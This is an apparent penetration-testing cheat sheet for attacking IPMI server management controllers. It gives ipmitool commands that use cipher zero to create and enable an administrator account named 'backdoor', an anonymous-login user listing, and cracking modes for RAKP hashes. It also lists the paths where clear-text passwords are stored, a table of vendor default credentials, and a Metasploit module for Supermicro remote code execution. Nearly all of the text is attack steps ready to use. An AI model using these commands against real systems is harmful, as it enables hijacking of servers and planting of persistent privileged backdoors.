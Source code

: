 # IPMI #
### Restricted SMASH Shell via SSH ###
```
shell ls
shell sh
```
Fixed in firmware but there is a workaround\

### Cracking ###
```
hashcat = m 7300
john = RAKP
```

### Cipher Zero ###
```
ipmitool -I lanplus -C 0 -H 10.0.0.99 -U Administrator -P FluffyWabbit user list
	#The number is which user
ipmitool -I lanplus -C 0 -H 10.0.0.99 -U Administrator -P FluffyWabbit user set name 2 backdoor
ipmitool -I lanplus -C 0 -H 10.0.0.99 -U Administrator -P FluffyWabbit user set password 2 password
ipmitool -I lanplus -C 0 -H 10.0.0.99 -U Administrator -P FluffyWabbit user priv 2 4
ipmitool -I lanplus -C 0 -H 10.0.0.99 -U Administrator -P FluffyWabbit user enable 2
```

### Anonymous auth ###
```
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user list
```

### Clear text passwords ###
```
/nv/PSBlock
/nv/PSStore
```

### Default passwords ###
```
Product Name					Default Username	Default Password
HP Integrated Lights Out (iLO)			Administrator	<factory randomized 8-character string>
Dell Remote Access Card (iDRAC, DRAC)		root	calvin
IBM Integrated Management Module (IMM)		USERID	PASSW0RD (with a zero)
Fujitsu Integrated Remote Management Controller	admin	admin
Supermicro IPMI (2.0)				ADMIN	ADMIN
Oracle/Sun Integrated Lights Out Manager (ILOM)	root	changeme
ASUS iKVM BMC					admin	admin
```

### Remote code execution supermicro ###
```
exploit/multi/upnp/libupnp_ssdp_overflow
```

### References ###
```
https://www.rapid7.com/blog/post/2013/11/15/exploiting-the-supermicro-onboard-ipmi-controller/
http://www.staroceans.org/e-book/IPMI-hack.htm
```
